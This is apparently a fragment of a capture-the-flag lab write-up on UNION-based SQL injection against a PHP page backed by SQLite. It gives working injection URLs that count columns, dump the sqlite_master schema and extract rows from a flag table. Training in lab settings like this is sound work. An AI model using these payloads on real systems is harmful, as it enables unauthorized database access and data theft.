 ### inding the number of columns:

Before we continue, there is a very important piece of information you need to know:

**The number of columns returned by the** `UNION SELECT` **query must be the same as the number of columns returned by the original query.**


http://10.10.147.21/TASK8/index.php?sector=%22Zion%22%27+UNION+SELECT+null,+null,+null,+null,+null+FROM+sector_details+--+-


http://10.10.147.21/TASK8/index.php?sector=%22%22%27+UNION+SELECT+1,+name,+name,+sql,+%27a%27+FROM+sqlite_master+WHERE+type=%27table%27;+--+-

CREATE TABLE fl4gged_events ( id INTEGER PRIMARY KEY AUTOINCREMENT, timestamp TEXT, activity TEXT )

http://10.10.147.21/TASK8/index.php?sector=%22%22%27+UNION+SELECT+1,+id,+timestamp,+activity,+%27a%27+FROM+fl4gged_events+WHERE+id=4;+--+-

kewl



